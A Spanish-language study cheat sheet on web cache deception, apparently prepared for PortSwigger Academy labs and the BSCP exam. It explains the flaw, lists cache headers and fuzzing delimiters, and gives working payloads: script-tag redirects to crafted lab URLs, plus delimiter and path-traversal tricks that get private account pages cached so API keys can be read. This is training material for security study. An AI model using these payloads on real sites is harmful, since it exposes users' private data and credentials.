 El engaño de caché web es una vulnerabilidad que permite a un atacante engañar a una caché web para que almacene contenido dinámico y confidencial. Se debe a discrepancias entre la forma en que el servidor de caché y el servidor de origen manejan las solicitudes.

En un ataque de engaño de caché web, un atacante convence a una víctima para que visite una URL maliciosa, lo que induce al navegador de la víctima a realizar una solicitud ambigua de contenido confidencial. La caché malinterpreta esto como una solicitud de un recurso estático y almacena la respuesta. El atacante puede luego solicitar la misma URL para acceder a la respuesta almacenada en caché, obteniendo acceso no autorizado a información privada.

![[Pasted image 20250216102537.png]]

<hr> 

```http
Concentrarnos en los endpoints que sean GET, HEAD, OPTIONS. 
Ya que las solicitudes que alteran el estado del servidor de origen generalmente
no se almacenan en caché.
```

## IMPORTANTE: 

**Cuando encuentre en un lab o en el BSCP una APP que no devuelve /admin, no tiene scripts curiosos que podamos explotar, no tiene una funcionalidad que podamos analizar para explotar, el brute force attack del LOGIN por el rate limit tampoco funciona, tampoco podemos ingresar como wiener y tras de eso el FFUF no encuentra enpoints ocultos, el ataque va directamente en modificiar algo de la request principal de la app, su host header, un nuevo param body, un web cache (si devuelve reglas de caché, etc)**
### Headers Response que definen posible almacenamiento en cache: 

```
X-Cache -> info about cache
X-Cache: hit -> response served from cache
X-Cache: miss -> cache doesnt have a answer for that request
X-Cache: dynamic -> server origin generate content dinamycally
X-Cache: refresh -> updating content stored in cache
Cache-Control: -> encabezado puede incluir una directiva que indique el almacenamiento en caché, como public con un max-agevalor mayor que 0
```

Url Web Cache Scanner BURP: [https://portswigger.net/bappstore/7c1ca94a61474d9e897d307c858d52f0](https://portswigger.net/bappstore/7c1ca94a61474d9e897d307c858d52f0)

### Web Cache Deception delimitadores list: 

```
! 
" 
# 
$ 
% 
& 
' 
( 
) 
* 
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
```

## Payloads: 

```js
Engaño de cache web para el mapeo de rutas: 
<script>document.location="https://ID-LAB.web-security-academy.net/my-account/wcd.js"</script>
para luego acceder a GET /my-account/wcd.js y tomar la API Key.

Discrepancia entre limitadores (OpenLiteSpeed Server) usa el byte nulo como delimitador `%00` 
Ex: /profile%00foo.js
Ex: /profile%0Afoo.js
Ex: /profile%09foo.js
Ex2: /settings/users/list;aaa.js

Explotar la discrepancia de web cache deception
GET /my-account[burp-intruder]attack HTTP/1.1 CON LA LISTA de delimitadores del cheat sheet de arriba. that returns 200OK
<script>document.location="https://ID-LAB.web-security-academy.net/my-account;test.js"</script> 
GET /my-account;test.js

Explotacion normalizacion url server Origen (path traversal - tracking.js)
<script>document.location="https://ID-LAB.web-security-academy.net/resources/js/tracking.js/static/..%2F..%2F..%2F..%2F/my-account"</script>
GET /resources/js/tracking.js/static/..%2F..%2F..%2F..%2F/my-account HTTP/1.1


Explotacion normalizacion url server Cache (path traversal - tracking.js)
/my-account[BURP Intruder]%2f%2e%2e%2f%2e%2e%2fstatic ex:Delimitador es `#`== %23
/my-account#%2f%2e%2e%2f%2e%2e%2fstatic
Payload ganador:
<script>document.location="https://LAB-ID.web-security-academy.net/my-account%23%2f%2e%2e%2f%2e%2e%2fresources/js/tracking.js/static"</script>

Explotación de cache deception, coincidencia exacta: 
<script>document.location="https://LAB-ID.web-security-academy.net/my-account;%2f%2e%2e%2f%2e%2e%2frobots.txt?aaaa"</script>
Entrar a la URL: /my-account[;-DELIMITADOR que puede cambiar dependiendo ]%2f%2e%2e%2f%2e%2e%2frobots.txt?aaaa

```

